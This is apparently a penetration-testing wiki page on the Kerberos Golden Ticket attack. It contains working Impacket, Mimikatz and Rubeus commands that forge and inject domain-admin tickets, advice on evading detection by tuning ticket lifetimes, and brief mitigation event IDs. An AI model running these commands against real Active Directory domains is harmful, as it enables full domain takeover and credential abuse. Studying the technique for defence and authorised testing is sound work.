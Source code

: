 # Golden Ticket

{{#include ../../banners/hacktricks-training.md}}

## Golden ticket

A **Golden Ticket** attack consist on the **creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user** through the use of the **NTLM hash of the Active Directory (AD) krbtgt account**. This technique is particularly advantageous because it **enables access to any service or machine** within the domain as the impersonated user. It's crucial to remember that the **krbtgt account's credentials are never automatically updated**.

To **acquire the NTLM hash** of the krbtgt account, various methods can be employed. It can be extracted from the **Local Security Authority Subsystem Service (LSASS) process** or the **NT Directory Services (NTDS.dit) file** located on any Domain Controller (DC) within the domain. Furthermore, **executing a DCsync attack** is another strategy to obtain this NTLM hash, which can be performed using tools such as the **lsadump::dcsync module** in Mimikatz or the **secretsdump.py script** by Impacket. It's important to underscore that to undertake these operations, **domain admin privileges or a similar level of access is typically required**.

Although the NTLM hash serves as a viable method for this purpose, it is **strongly recommended** to **forge tickets using the Advanced Encryption Standard (AES) Kerberos keys (AES128 and AES256)** for operational security reasons.

```bash:From Linux
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

```bash:From Windows
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```

**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

### Bypassing common detections

The most frequent ways to detect a golden ticket are by **inspecting Kerberos traffic** on the wire. By default, Mimikatz **signs the TGT for 10 years**, which will stand out as anomalous in subsequent TGS requests made with it.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

```
Get-DomainPolicy | select -expand KerberosPolicy
```

Unfortunately, the TGT's lifetime is not logged in 4769's, so you won't find this information in the Windows event logs. However, what you can correlate is **seeing 4769's without a prior 4768**. It's **not possible to request a TGS without a TGT**, and if there is no record of a TGT being issued, we can infer that it was forged offline.

In order to **bypass this detection** check the diamond tickets:

{{#ref}}
diamond-ticket.md
{{#endref}}

### Mitigation

- 4624: Account Logon
- 4672: Admin Logon
- `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Other little tricks defenders can do is **alert on 4769's for sensitive users** such as the default domain administrator account.

## References

- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{{#include ../../banners/hacktricks-training.md}}

